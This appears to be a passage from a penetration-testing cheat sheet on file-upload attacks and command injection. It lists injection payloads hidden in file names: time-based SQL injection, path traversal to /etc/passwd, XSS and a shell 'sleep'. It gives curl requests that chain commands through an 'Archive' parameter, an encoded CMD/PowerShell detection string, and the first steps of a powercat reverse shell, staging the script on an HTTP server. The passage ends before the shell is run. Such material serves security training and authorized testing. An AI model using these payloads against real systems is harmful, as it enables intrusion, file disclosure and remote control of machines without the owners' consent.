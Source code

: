 - Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads: e.g. `image.png../../../../../../../etc/passwd`
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:

- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus
#### Command Injection
##### Basic checking

Git example:
```
curl -X POST --data 'Archive=git' http://server:port/archive
```

Checking version:
```
curl -X POST --data 'Archive=git version' http://server:port/archive
```

Checking if we can use another command with git with encoded semicolon `;` represented as `%3B` because this can be used with PowerShell and Bash.
```
curl -X POST --data 'Archive=git%3Bipconfig' http://server:port/archive
```

NOTE:  Alternatively, we can use two ampersands, `&&`, to specify two consecutive commands and for the Windows command line (CMD) we can also use `&`.
##### Checking if is CMD or PowerShell (Windows)

By PetSerAI, this command displays PowerShell or CMD, so we can see if we can use PowerShell or CMD commands:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Using the string above:
```
curl -X POST --data
'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20P
owerShell' http://192.168.50.189:8000/archive
```

##### Reverse shell
NOTE: This kind of reverse shell is used a lot

1) Copy powercat.ps1 to your http server directory:
```
cp /usr/share/powershell-
empire/empire/server/data/module_source/management/powercat.ps1 .
```

2) Setting up the http server:
```
python -m http.server 8000
```

